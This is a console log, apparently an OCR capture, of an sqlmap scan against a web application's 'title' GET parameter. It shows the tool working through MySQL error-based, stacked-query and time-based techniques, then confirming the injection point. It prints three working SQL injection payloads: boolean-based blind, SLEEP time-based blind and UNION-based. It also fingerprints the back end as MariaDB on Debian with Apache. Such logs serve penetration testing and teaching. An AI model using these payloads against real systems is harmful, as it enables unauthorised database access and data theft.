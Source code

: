 ```console
[15:33:41] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[15:33:41] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[15:33:41] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[15:33:41] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[15:33:41] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[15:33:41] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[15:33:41] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[15:33:41] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[15:33:41] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[15:33:41] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[15:33:41] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (EXP)'
[15:33:41] [INFO] testing 'MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)'
[15:33:41] [INFO] testing 'MySQL >= 5.7.8 error-based - Parameter replace (JSON_KEYS)'
[15:33:41] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[15:33:41] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[15:33:41] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[15:33:41] [INFO] testing 'Generic inline queries'
[15:33:41] [INFO] testing 'MySQL inline queries'
[15:33:41] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[15:33:41] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[15:33:41] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[15:33:41] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[15:33:41] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[15:33:41] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[15:33:41] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[15:33:51] [INFO] GET parameter 'title' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[15:33:51] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[15:33:51] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[15:33:51] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[15:33:51] [INFO] target URL appears to have 3 columns in query
[15:33:51] [INFO] GET parameter 'title' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'title' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 66 HTTP(s) requests:
---
Parameter: title (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: title=sing' AND 7521=7521-- btpz

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: title=sing' AND (SELECT 1168 FROM (SELECT(SLEEP(5)))mcsX)-- Oxsl

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: title=sing' UNION ALL SELECT NULL,CONCAT(0x7170707871,0x4c614776545a6b776b43437675786d4e56494d4b59556150614362707a537353616b555072454b48,0x7170717171),NULL-- -
---
[15:33:55] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.59
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
```